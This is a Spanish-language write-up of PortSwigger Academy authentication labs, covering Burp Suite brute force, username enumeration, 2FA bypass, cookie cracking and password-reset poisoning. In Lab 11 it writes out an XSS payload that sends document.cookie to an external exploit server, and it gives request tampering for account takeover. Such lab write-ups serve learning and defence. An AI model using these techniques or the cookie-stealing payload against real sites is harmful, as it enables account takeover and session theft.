

# Authentication

[TOC]

## Vulnerabilities in password-based login

### Brute Force Attacks

#### Lab 1: User name enumeration via different responses

Para estos laboratorios se estará utilizando burp suite. El ataque se efectuara en la pagina de logeo del laboratorio.

Primero en el burp suite debemos interceptar los paquetes en la pestaña de proxy, luego debemos ingresar algun dato para interceptar la consulta. Entonces tendremos algo como esto:


En este caso coloque de usuario `juan` y contraseña `gabriel`.

Click derecho en la consulta y le ponemos `send to intruder, de ahí nos movemos a la pestaña de intruder.

En positions le damos a clear y seleccionamos solo el usuario


type attack: sniper

Nos vamos a payloads y agregamos en payload options en load para cargar la lista de usuarios que nos da la pagina de port swigger.

Luego en options nos vamos a `Grep - Extract` y agregamos con Add, nos da una ventanita en donde le damos a `Fetch response`  y buscamos `Invalid username`


le damos ok y luego en start attack

con eso veremos que los resultados positivos son los que no tengan Invalid username, sino diran Invalid password.


Con eso ya encontramos un usuario, ahora hacemos lo mismo pero cambiando la contraseña con el diccionario que te dan port swigger.


La respuesta que no tiene ningun mensaje de error sería la contraseña correcta.

#### Lab 2: Username enumeration via subtly different responses

Para este laboratorio tenemos que realizar el mismo proceso que el anteriro laboratorio pero las respuestas son el mismo en ambos casos aparentemente, en este caso te dan `Invalid username or password.` pero cuando la respuesta es correcta no tiene el punto final


Para la contraseña de la misma manera realizamos un ataque de fuerza bruta y buscamos el que nos de una redireccion o que no nos bote algun mensaje de error.


#### Lab 3: Username enumeration via response timing

Para este laboratorio se inicia de la misma manera que laboratorios anterirores enviar la consulta al intruder, en este caso debemos agregar la cabecera `X-Forwarded-For` con una dirección IP pues la pagína revisa la cantidad de intentos registrados por IP. Luego debemos modificar la consulta donde la password debe ser muy larga para que se demore en procesar cuando el usuario sea el correcto.


Seleccionamos el tipo de ataque **Pichfork** para que itere con dos listas, donde una será los dos ultimos digitos de alguna IP y la otra iteraría los nombres de usuarios.


Para la primera lista usaremos un payload de tipo Numbers y se colocara segun la imagen para generar numeros del 1 al 254. En el caso de la segunda lista serán los usuarios como en los anteriores laboratorios.

Ahora deberemos ver como demora cada consulta. También en **columns** seleccionamos la opcion de **response received** para ver el tiempo de respuesta y el que tenga un valor mayor será el resultado correcto.


Finalmente, solo nos faltará buscar la contraseña usando el usuario que encontramos y esperar una redireccion (codigo 302).

### Flawed brute-force protection

#### Lab 4: Broken brute-force protection, IP block

Para este laboratorio usamos lo que vimos anteriormente, en este caso queremos buscar la contraseña del usuario **carlos** pero nos bloquean la ip cada 1 min por lo que usaremos credenciales validas luego de cada vez que intentemos otras credenciales para que se reinicie la cantidad de intentos por IP.

Entonces en el intruder useremos el tipo de ataque **Pitchfork** con las listas de esta manera:


tenemos las credenciales validas de usuario **wiener** y contraseña **peter**, intercalamos en usuario wiener con carlos y en contraseña colocamos cada vez que se vaya a usar weiener colocamos peter y en donde se pruebe con carlos le colocamos el elemento de la lista que nos da Port swigger


buscamos por codigo de estado 302 en donde este el usuario carlos para encontrar la consulta correcta.

### Account locking

#### Lab 5: User name enumeration via account lock

Para este laboratorio habiendo mandado la consulta del login al **intruder**, se modifica de la siguiente manera para iterar entre usuarios y agregar al final ese simbolo para que se pueda repetir el mismo valor mas de una vez con los payloads. Para este caso usaremos **cluster bomb** en tipo de ataque


En el primer payload colocamos la lista de los usuarios. En el segundo le colocamos una lista simple en donde agregamos valores nulos, al no colocar nada y darle en el boton de agregar.


Para obtener el usuario buscamos que tenga la mayor longitud en la respuesta.


Luego como los anteriores laboratorios buscamos la contraseña con el usuario encontrado y vemos de que no indica un mensaje de error cuando el usuario y contraseña son correctos.



### User rate limiting

#### Lab 6: Broken brute-force protection, multiple credentials per request

Iniciamos interceptando la consulta y vemos de que esta enviando la información como JSON.


Para resolver este laboratorio debemos ingresar mas de una contraseña, y para esto se modificará el parametro password para que en vez de ingresar un string enviará un array de string.


y terminaría de esta manera.


## Vulnerabilities in multi-factor authentication

### Bypassing two-factor authentication

#### Lab 7: 2FA simple bypass

### Flawed two-factor verification logic

#### Lab 8: 2FA broken logic

Iniciamos logeandonos con las credenciales `wiener:peter`, aquí interceptaremos los paquetes enviados.


Debemos modificar el valor de `verify=carlos` para que mande el segundo factor de autentificación a la cuenta de carlos.


Ahora necesitaremos enviar la consulta al intruder y modificarla con `verify=carlos` con algun numero para la autentificación de segundo factor.


En el intruder cambiamos `verify=carlos`, usamos el ataque de tipo sniper y limpiamos con clear. Se selecciona unicamente los numeros que vamos a iterar con un ataque de fuerza bruta.


Para payload usaremos una lista de numeros con las siguientes propiedades:


Por último agregamos en options en grep extract que busque la frase de código invalido.

Inciamos el ataque y buscamos el que nos de un código de respuesta de 302


Con la respuesta correcta le damos click derecho y la opción **show response in browser**


Copiamos y pegamos el enlace en el navegador de burp suite para que nos redireccione, otra forma es copiar la cookie de session y colocarla en el navegador que tengamos.


### Brute-forcing 2FA verification codes

#### Lab 9: 2FA bypass using a brute-force attack

Comenzamos iniciando sesión con las credenciales que tenemos y mandamos una consulta del 2do factor de autentificación con algun numero. Ahora con eso vamos a `proyect options` y en la pestaña de `session` agregamos en session handling rules.


Le cambiamos el nombre y agregamos la opción `run macro`.


Luego de damos a agregar nuevamente


En la ventana de **Macro Recorder** seleccionamos las que queremos que se repitan, en este caso serán:

1. Cargar la página inicio de sesión.
2. Mandar las credenciales.
3. recbir la página para indicar el código de 2do factor.

La útlima consulta que es donde mandamos el código no será parte de la macro, esa consulta será utilizada para la fuerza bruta.

Entonces seleccionamos estas 3 y le damos **Ok**.


Ahora le damos en la opción de test macro para verificar que se esta tomando correctamente los parametros.


Aquí debemos verificar que en la reponse del primero su parametro csrf debe ser igual al que salga en la consulta 2.


Le damos **Ok** en todas las opciones hasta llegar a la ventana de `session handling rule editor` en donde seleccionamos la opcion de scope y le damos en la opción de `include all URLs` y le damos **Ok**.


Ahora en la pestaña de proxy en la parte de HTTP History mandamos al intruder la consulta en donde enviamos el codigo de 2do factor de autentificación.


Ya por útlimo realizamos en el intruder un ataque de fuerza bruta con el 2do facto de autentificación como hemos estado haciendo en laboratorios anteriores.


Para este ataque es necesario usar unicamente un hilo sino hay problemas con la sesiones y nos bota errores en la consulta.


Ya como resultado del ataque debemos buscar la consulta que nos indique una redirección(código 302) le damos click derecho y mostrar en el navegador, igual que el laboratorio anterior.


## Vulnerabilities in other authentication mechanisms

### Keeping users logged in

#### Lab10: Brute-forcing a stay-logged in cookie

Iniciamos sesión con las credenciales que tenemos `wiener:peter` y seleccionamos el cuadro *"Stay logged in"*.


Luego actualizamos la pagina **My Account** pero esta vez capturando los paquetes. 


Analizamos la cookie *stay-logged-in* y probamos si es que es algún tipo de encodificación de base 64.

```bash
$ echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Ahora verificamos si es que los caracteres que van despues de wiener es algún tipo de hash.

```bash
$ hashid 51dc30ddc473d32a6011e92bba6ca770
Analyzing '51dc30ddc473d32a6011e92bba6ca770'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
...
```

Parece ser MD5, esto se puede verificar en alguna página que tenga este tipo de hash y descubrimos que es el MD5 de la contraseña. Por ejemplo [https://www.md5online.org/md5-decrypt.html](https://www.md5online.org/md5-decrypt.html).

Ahora tenemos la formula que tienen para generar la cookie `base64(user:MD5(password))`, esto nos servira para la generación de payloads


Tenemos que enviar al intruder la consulta que anteriormente capturamos. En el intruder no nos va a servir la cookie session, la que vamos a usar será **stay-logged-in**


En la pestaña de **Payloads** cargamos las posibles contraseñas que nos da la página, luego en la sección **Payloads Processing** agregamos la regla `hash: MD5`, luego agremaos la regla `prefix` con el texto `carlos:` y finalmente la regla `encode base64`

Por último en options en la sección de **grep extract**, buscamos `your username is ...` y lo mandamos a realizar el ataque.


La respuesta será la que te responda con el nombre **Carlos**.


#### Lab11: Offline password cracking

Igual que en el laboratorio anterior tenemos las credenciales `wiener:peter` y su cookie **stayed-loged-in** tiene el formato: `base64(user:MD5(password))`. En este caso no nos dara resultados hacer fuerza bruta con la lista de contraseñas que nos dieron.

En este caso nos indican que la caja de comentarios es vulnerable a XSS y nos dan un servidor web donde podemos ver los logs. Entraremos a cualquier post para agregar un comentario.


```javascript
<script>document.location='https://exploit-acf01f691f1fa436c0cd709e01bf000e.web-security-academy.net/exploit/'+document.cookie</script>
```

Usaremos la dirección del servidor que nos dieron. El código anterior lo que hace será redireccionar a la página del servidor pero a la ruta `/exploit/(cookies)` donde envia las cookies de la página que queremos explotar, no es necesario que exista esa ruta pues solo queremos ver el mensaje en los logs.


En los logs del servidor podemos ver que hay una conexión de una dirección distinta, la cual ya no es nuestra IP. Analizamos la cookie **stayed-log-in**, lo decodeamos de base 64.
```
carlos:26323c16d5f4dabff3bb136f2460a943
```

Sabemos que la segunda parte es la contraseña hasheada con md5. Usamos Crackstation para buscar el hash y obtener la contraseña.


Por úlitmo deberemos ingresar las credenciales de carlos y eliminar su cuenta.

## Resetting user passwords

### Resetting passwords using a URL

#### Lab12: Password reset broken logic

En este laboratorio explotaremos la opción de reiniciar la contraseña por lo que en la página logeo le damos a la opción **Forgot Password?**.


Usamos el correo que nos da **Portswigger**, ahí veremos que nos llego un correo con un enlace para resetear la contraseña. Esta vez lo cargaremos con **BurpSuite** para interceptar las consultas.

Ingresamos una contraseña cualquiera y lo mandamos para que se intercepte en el **BurpSuite**.


Cambiamos la parte final de la consulta en donde el valor de username ahora será carlos.

```
temp-forgot-password-token=tLkFHcr2KmBzkCGpbop3ajdNIshLl0if&username=carlos&new-password-1=miau12345&new-password-2=miau12345
```

Por úlitmo ingresamos con la nuevas credenciales usando el usuario *carlos*.

#### Lab13: Password reset poisoning via middleware

Iniciamos el laboratorio usando la opción **Forgot password** ingresamos el usuario **wiener** que es el que nos dieron las credenciales para probar como es el proceso de reinicio de contraseña.

Si nos fijamos en el correo que nos proporcionaron, podemos ver que nos dan un enlace para el reinicio como el laboratorio anterior. Lo que necesitamos es el valor de `temp-forgot-password-token` del usuario carlos para poder reiniciar su contraseña.

```
https://ac291f7c1fc70439c0f4885a0084000f.web-security-academy.net/forgot-password?temp-forgot-password-token=HVDhN265ciWJvFMojzXl7VUZQrIJDiXK
```

Ahora volveremos a usar la opción **forgot password** pero esta vez interceptando los paquetes y usando el nombre de usuario '*carlos*'. Modificaremos la consulta y vemos que se puede agregar la cabecera X-Forwarded-Host donde indicaremos el servidor web que nos proporciono el laboratorio.


Como el laboratorio indica el usuario carlos dara click a todo enlace que le haya llegado a su correo. y vemos que en nuestros logs del servidor hay una consulta que nos da el **token** que necesitamos.


Usaremos este token para poder modificar la contraseña e ingresamos las nuevas credenciales en Myaccount para resolver el laboratorio.

## Changing user passwords

### Lab14: Password brute-force via password change

Ingresamos las credenciales que nos dan `wiener:peter` intentamos cambiar la contraseña pero interceptando los paquetes en burp suite.


Llenamos los datos en `current password`, `new password` y `confirm new password` con cualquier dato. Vemos que al interceptar el paquete envia el nombre de usuario en un *hidden input* por lo que podemos realizar un ataque de fuerza bruta. 


Si ingresamos en las nuevas contraseñas dos distintas, entonces la verificación se realizara solo por la contraseña actual. Si es que la contraseña actual es correcta el resultado será que las contraseñas nuevas no coinciden y si es que la contraseña actual es incorrecta dira que no es valida la contraseña.

Realizaremos el ataque en el **intruder** de tipo sniper donde usaremos las contraseñas que nos dan para probar y configuramos en las opciones en Grep-Match que nos busque el mensaje de error.


Obtendremos un resultado similar al siguiente al realizar el ataque, la respuesta nos da "`New passwords do not match`" en vez de "`current passwords is incorrect`".


Ingresamos con la contraseña que encontramos para resolver el laboratorio.